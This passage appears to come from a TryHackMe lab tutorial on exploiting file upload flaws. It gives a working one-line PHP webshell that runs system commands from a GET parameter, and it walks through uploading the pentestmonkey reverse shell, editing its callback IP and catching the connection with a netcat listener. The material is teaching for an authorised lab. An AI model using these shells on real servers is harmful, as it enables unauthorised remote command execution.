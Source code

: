 As it is, we know that this webserver is running with a PHP back-end, so we'll skip straight to creating and uploading the shell. In real life, we may need to do a little more enumeration; however, PHP is a good place to start regardless.A simple webshell works by taking a parameter and executing it as a system command. In PHP, the syntax for this would be:

```php
**<?php
echo system($_GET["cmd"]);
?>**
```

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

![up](https://i.imgur.com/CU0Uyx5.png)

Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are limitless. Note that when using webshells, it's usually easier to view the output by looking at the source code of the page. This drastically improves the formatting of the output.

---

*Reverse Shells:*

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloaded [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently say `$ip = '127.0.0.1';  // CHANGE THIS` -- as it instructs, change `127.0.0.1` to your TryHackMe tun0 IP address, which can be found on the [access page](https://tryhackme.com/access).
You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection. `nc -lvnp 1234`:

![up](https://i.imgur.com/ysY306E.png)

Now, let's upload the shell, then activate it by navigating to `http://demo.uploadvulns.thm/uploads/shell.php`. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php` by default).

The website should hang and not load properly -- however, if we switch back to our terminal, we have a hit!

![up](https://i.imgur.com/he0hbiR.png)

Once again, we have obtained RCE on this webserver. From here we would want to stabilize our shell and escalate our privileges, but those are tasks for another time. For now, it's time you tried this for yourself!

---
